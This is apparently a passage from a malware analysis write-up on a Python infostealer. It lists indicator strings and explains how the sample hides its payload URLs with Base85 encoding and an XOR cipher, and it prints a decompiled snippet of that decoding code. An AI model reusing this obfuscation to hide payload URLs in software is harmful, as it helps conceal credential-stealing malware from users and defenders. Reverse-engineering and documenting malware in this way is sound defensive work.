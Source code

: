 Signs of being infostealers:

- `master_key`, `passwords`, `webhook_url`, `ImageGrab`, etc.

---

## 🧬 3. Obfuscation Techniques

### 🔐 Encoding Technique

The malware used a combo of **Base85 encoding** and an **XOR cipher** with hardcoded keys to obfuscate its payload URLs. I discovered this while reversing `main.pyc` from Payload 5. After extracting the binary using [pyinstxtractor](https://github.com/extremecoders-re/pyinstxtractor) and partially decompiling with `pycdc`, I noticed suspicious encoded strings like this:

```python

sJ6APjTTG5m = [
    bytes((
        lambda .0: [
            b ^ bytes([
                79, 236, 233, 131, 98, 113, 56, 128,
                1, 188, 24, 65, 215, 92, 0, 10
            ])[i % len(bytes([
                79, 236, 233, 131, 98, 113, 56, 128,
                1, 188, 24, 65, 215, 92, 0, 10
            ]))]
            for i, b in .0
        ]
    )(enumerate(base64.b85decode(
        'Czze{5la`ZaouY*vOZ~KVULFHO#@l?F8C@Il@dxv3j'
    )))).decode(),

    bytes((
        lambda .0: [
            b ^ bytes([
                251, 205, 223, 132, 109, 225, 225, 177,
                201, 73, 47, 106, 241, 225, 7, 190
            ])[i % len(bytes([
                251, 205, 223, 132, 109, 225, 225, 177,
                201, 73, 47, 106, 241, 225, 7, 190
            ]))]
            for i, b in .0
        ]
    )(enumerate(base64.b85decode(
        'lew$(9^1~Ipe;%akdkQFkK?@S0M3!nx;;u6-qS+YuB(~+Uev0Bxn^AphRy'
    )))).decode()
]


```

